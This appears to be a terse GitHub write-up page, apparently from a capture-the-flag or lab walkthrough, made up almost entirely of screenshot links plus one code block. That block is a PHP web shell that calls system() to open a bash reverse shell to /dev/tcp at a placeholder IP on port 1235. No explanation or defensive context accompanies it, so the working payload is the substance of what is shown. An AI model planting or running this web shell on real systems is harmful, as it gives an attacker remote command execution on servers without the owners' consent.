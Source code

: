 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7d6c4d9-90c9-44da-b399-b5e7833e4f0b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1b6f0fd2-7178-40a3-92b4-7f209f796d68)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/498706d0-c307-4999-be7d-96be8c4813fb)

```
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1235 0>&1'"); ?>
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4b2755e3-00bc-4628-b980-b7d4c7b40d39)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6a0ee747-2cf5-4dd4-9eed-f48e9a286c03)
